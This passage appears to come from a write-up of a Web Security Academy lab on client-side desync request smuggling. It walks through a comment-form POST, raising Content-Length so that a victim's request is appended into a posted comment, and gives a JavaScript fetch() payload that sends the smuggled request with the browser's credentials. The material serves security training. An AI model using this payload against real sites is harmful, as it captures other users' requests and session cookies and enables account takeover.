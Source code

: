 ```http
csrf=kBVF187ngft1vzcFHK5gU4IiYssQRZUZ&postId=5&name=halilWasHere&email=halilwashere@halil.com&website=https://www.halil.com&comment=halilWasHere
```

In order to remove the chances for errors, remove the url encoding and try to send it to see if it works:

```http
csrf=kBVF187ngft1vzcFHK5gU4IiYssQRZUZ&postId=5&name=halilWasHere&email=halilwashere@halil.com&website=https://www.halil.com&comment=halilWasHere
```

We got again a `302 Found` which means it's working.

Copy this whole `post request` to our attack request, as a smuggle request and increase the `Content-Length` as we want for the victim's request to be appended after:

Send the request in the tab group, and we see now that both the attack and the normal request have a `302 Found` and if we check the comment section in the browser we have:

`halilWasHereGET /en HTTP/1.1 Host: 0ad0007504e058c7c925f8c3009e0035`

Now change also the JS file.

```javascript
fetch("https://0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net/", {

method: "POST",

body: "POST /en/post/comment HTTP/1.1\r\nHost: 0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net\r\nCookie: session=m370RKMtGYk4Q0ujQio6L1c1g8XBviFE\r\nContent-Length: 200\r\nContent-Type: application/x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=kBVF187ngft1vzcFHK5gU4IiYssQRZUZ&postId=5&name=halilWasHere&email=halilwashere@halil.com&website=https://www.halil.com&comment=halilWasHere",

credentials: "include", //with-cookies connection pool

mode: "cors", //make sure the 302 on / is not followed

}

).catch(()=>{

fetch("https://0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net/en", {

mode: "no-cors",

credentials: "include"

});

});
```

Try again with the Browser, and we see that we got both times a `302 Found` and also the comment on the post in the site.
